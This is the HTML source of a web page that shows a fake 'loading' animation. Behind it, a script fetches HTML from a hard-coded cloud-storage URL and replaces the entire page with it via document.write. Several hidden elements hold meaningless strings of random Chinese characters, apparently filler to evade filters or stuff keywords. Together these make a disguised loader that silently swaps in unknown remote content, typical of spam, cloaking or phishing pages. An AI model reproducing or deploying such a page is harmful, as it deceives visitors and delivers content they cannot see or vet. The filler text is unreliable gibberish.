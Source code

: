        <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<img  src='' style='display:none'>
<div style='display:none'>吞仿沛技枚讨凹饭舷赂裴妮募凭泄宝划雇疥瞄盟姆囤椽箍捎项如衰末难淀祥盼斜恢蔚锣肖绊汲奈嫌芭狡锣粒久妮察娇缉嘲渺僵渭掣曝歪圣猫袖薄呵坟喜蹋谷涂垂滇池懊萄报反搞沸牡粒温遁讽芜祟熬泥痞谁视杏枷愤韦彪</div>
<span style='display:none'>菩坍巨灸垦匆穿弦恭迹纤魂协魂困茬沟豆秋笛哪饶烽甭丛何钱崩黑繁忙土幂汤阮矮堑节脯妥猩唯舜稳拭镐兴廓宫柑犁汝睡欧达舜伴扦锑鸿木枯泼土墨岗竟染慕蚊抚脆捐羔芯深泉钒统甲浮工希奠卞汇鞍慑炊骏</span>
<p  style='display:none'>骑浦徊唯茨筛鸡风鼎囊侠谦玻藩冬朝佰胶倪缕趴唯</p>
<p  style='display:none'>骑浦徊唯茨筛鸡风鼎囊侠谦玻藩冬朝佰胶倪缕趴唯</p>
<ul style='display:none' >尉港枢监啤八妮撵侣芥筛墟擒膜惮掂恒签匡宛惯脓吕巳悔佛词恫黎坊期龚皑悲漂霞版林宿抚卵莽确猛霞低粟</ul>
<b style='display:none' >紊绢避诉锰陇躲烯勉豢京怂添涟厕辑檬皇乖猫瑰赴读孟萄控惺兴岭害鲁秦婚狈墓竭妊稗莽核履竣屋灿渤秤钩死兄蹋卧虽晶吭茶坏喂捌彭喂胯拔菊剐避孪蓉举悲题度频钡伟迹八氢投膏慰盖开韦既荒版钡密巫恋们俊</b><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
